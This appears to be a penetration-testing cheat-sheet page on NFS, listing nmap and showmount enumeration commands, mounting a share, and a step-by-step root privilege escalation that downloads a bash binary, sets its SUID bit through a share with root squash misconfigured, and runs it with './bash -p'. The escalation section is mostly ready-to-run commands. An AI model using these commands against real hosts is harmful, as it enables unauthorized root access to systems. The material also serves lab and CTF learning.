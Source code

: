 # NFS

[Network File System](https://en.wikipedia.org/wiki/Network_File_System) is a distributed file system protocol originally developed by Sun Microsystems in 1984, allowing a user on a client computer to access files over a computer network much like local storage is accessed.

## Enumerate

```bash
# install nfs-common and run a nmap full scan

sudo nmap -sS -Pn -sV -sC -oN allports -p- -T5 -vv [IP]

# list the shares

/usr/sbin/showmount -e [IP]

# create mountpoint

mkdir /tmp/mount

sudo mount -t nfs [IP]:share /tmp/mount/ -nolock
```
## Exploit
You can exploit NFS shares to escalate your privileges on your target.

1. NFS Access

2. Gain Low Privilege Shell

3. Upload Bash Executable to the NFS share

4. Set SUID Permissions Through NFS Due To Misconfigured Root Squash

5. Login through SSH

6. Execute SUID Bit Bash Executable

7. ROOT ACCESS
<br></br>
```bash
# on your host download bash binary matching the version on your target

wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

sudo chown root bash

# copy the binary to the NFS share, cd into the NFS share, and set permissions

chmod +s bash
chmod +x bash

# ssh into the NFS share and run bash

./bash -p
```